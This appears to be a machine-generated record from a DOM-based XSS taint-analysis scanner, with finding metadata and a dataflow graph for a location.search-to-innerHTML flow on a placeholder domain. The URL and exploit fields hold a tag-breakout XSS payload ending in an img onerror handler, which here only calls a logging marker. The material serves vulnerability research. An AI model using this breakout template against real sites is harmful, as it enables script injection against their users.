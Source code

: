 // Finding: 4c131dea-b43b-42c4-9b20-8055ec2aecb2
// Finding.url: https://example71.com/grants/awarded-grants?field_recipient_type[Office+o</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('156137f57d714968bbdcb4ec955ac9e4')><!--/*+Museum+Services]=Office+of+Museum+Services&field_fiscal_year_text[1]=1
// Finding.parentloc: https://example71.com/grants/awarded-grants?field_recipient_type[Office+o</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('156137f57d714968bbdcb4ec955ac9e4')><!--/*+Museum+Services]=Office+of+Museum+Services&field_fiscal_year_text[1]=1
// Finding.domain: example71.com
// Finding.base_domain: example71.com
// Finding.source: location.search
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: <synthetic>
// Sanitizer.location: example18.com
// Finding.begin: 230
// Finding.end: 233
// Finding.original_uuid: 8ede3575-76b2-4e33-aaca-3174eb555522
// Finding.TwentyFiveMillionFlowsId: 2094995897
// Finding.script: https://example71.com/core/assets/vendor/jquery/jquery.min.js?v=3.5.1
// Finding.line: 2
// Exploit.uuid: 156137f5-7d71-4968-bbdc-b4ec955ac9e4
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: text
// Exploit.content: o
// Exploit.quote_type: None
// Exploit.tag: None
// Exploit.break_out: o</iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: o</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 67
// Exploit.end_taint_url: 69
// Exploit.replace_begin_url: 67
// Exploit.replace_end_url: 69
// Exploit.replace_begin_param: 32
// Exploit.replace_end_param: 34
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: true
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -765834977
// DepGraph.sanitizer_hash: 520688648
// Merged split and join statements 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="decodeURIComponent"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="url_params_key"];
n4 [shape=box, label="Lit: field_recipient_type[Office o</iframe></style></script></object></embed></textarea><img src"];
n5 [shape=box, label="Var: x"];
n6 [shape=ellipse, label="preg_replace"];
n7 [shape=box, label="RegExp: /[ ]/"];
n8 [shape=box, label="Lit: -"];
n9 [shape=box, label="Var: x"];
n10 [shape=box, label="Var: x"];
n11 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n5 -> n1;
n3 -> n4;
n3 -> n5;
n9 -> n3;
n6 -> n7;
n6 -> n8;
n6 -> n9;
n10 -> n6;
n11 -> n10;
}